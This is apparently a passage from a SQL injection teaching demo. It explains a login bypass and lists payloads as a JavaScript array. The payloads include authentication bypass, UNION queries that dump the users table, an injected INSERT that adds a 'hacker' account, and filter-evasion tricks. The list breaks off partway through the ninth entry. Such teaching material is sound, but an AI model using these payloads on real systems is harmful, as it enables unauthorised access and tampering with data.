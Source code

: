 For example, entering `' OR '1'='1` as a username with any password causes the query to become:

```sql
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = 'anything'
```

Since `'1'='1'` is always true, this makes the WHERE clause evaluate to true for at least one row, bypassing the authentication.

**Examples of 10 common SQL injection attacks users can try:**
```javascript
  const examples = [
    {
      title: "1. Basic OR Injection",
      value: "' OR '1'='1",
      description:
        "Bypasses authentication by making the WHERE clause always evaluate to true",
    },
    {
      title: "2. Comment-Based Injection",
      value: "admin'--",
      description:
        "Logs in as 'admin' by commenting out the password check portion of the query",
    },
    {
      title: "3. UNION Attack (All Users)",
      value: "' OR 1=1 UNION SELECT * FROM users WHERE '1'='1",
      description:
        "Returns ALL users from the database by using UNION to append a second query",
    },
    {
      title: "4. Multiple OR Conditions",
      value: "' OR 1=1 OR '1'='",
      description:
        "Uses redundant OR conditions to ensure the WHERE clause evaluates to true",
    },
    {
      title: "5. Numerical Comparison",
      value: "x' OR 1=1--",
      description:
        "Uses a numerical comparison (1=1) that's always true rather than string comparison",
    },
    {
      title: "6. Authentication Bypass with NULL",
      value: "admin' OR username IS NOT NULL--",
      description:
        "Checks for any non-NULL username, which will match all user records",
    },
    {
      title: "7. Batch Query Injection",
      value:
        "admin'; INSERT INTO users VALUES (99, 'hacker', 'pass', 'hack@er.com');--",
      description:
        "Attempts to execute multiple SQL statements by adding a semicolon and new command",
    },
    {
      title: "8. Case Manipulation",
      value: "aDmIn'/**/Or/**/1=1--",
      description:
        "Uses case variation and SQL comments to evade simple detection filters",
    },
    {
      title: "9. UNION with Custom Values",
      value: "' UNION SELECT 1, 'admin', 'password123', 'admin@example.com'--",
      description:
```
